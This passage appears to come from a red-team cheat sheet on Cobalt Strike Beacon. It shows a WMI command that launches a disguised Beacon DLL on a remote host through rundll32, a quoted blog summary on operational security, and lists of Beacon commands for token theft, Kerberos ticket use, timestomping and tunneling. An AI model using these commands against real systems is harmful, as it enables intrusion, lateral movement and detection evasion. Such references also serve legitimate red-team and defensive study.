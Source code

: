 *Start Remote Beacon DLL via iwmi*
```
    powerpick iwmi -class Win32_Process -name create -ArgumentList "rundll32.exe c:\users\public\libraries\smb_beacon.dll.log0,StartW"
```

#### OPSEC Considerations for Beacon Commands
[Blog.Cobaltstrike.com - OPSEC Considerations For Beacon Commands](https://blog.cobaltstrike.com/2017/06/23/opsec-considerations-for-beacon-commands/#respond)

A good operator knows their tools and has an idea of how the tool is accomplishing its objectives on their behalf. This blog post surveys Beacons commands and provides background on which commands inject into remote processes, which commands spawn jobs, and which commands rely on cmd.exe or powershell.exe.

*API-only*
These commands are built-into Beacon and rely on Win32 APIs to meet their objectives.
```
    cd
    cp
    download
    drives
    exit
    getuid
    kerberos_ccache_use
    kerberos_ticket_purge
    kerberos_ticket_use
    jobkill
    kill
    link
    ls
    make_token
    mkdir
    mv
    ppid
    ps
    pwd
    rev2self
    rm
    rportfwd
    socks
    steal_token
    timestomp
    unlink
    upload
```

*House-keeping Commands*
The following commands are built into Beacon and exist to configure Beacon or perform house-keeping actions. Some of these commands (e.g., clear, downloads, help, mode, note) do not generate a task for Beacon to execute.
```
    cancel
    checkin
    clear
    downloads
    help
    jobs
    mode dns
    mode dns-txt
    mode dns6
    mode http
    note
    powershell-import
    sleep
    socks stop
```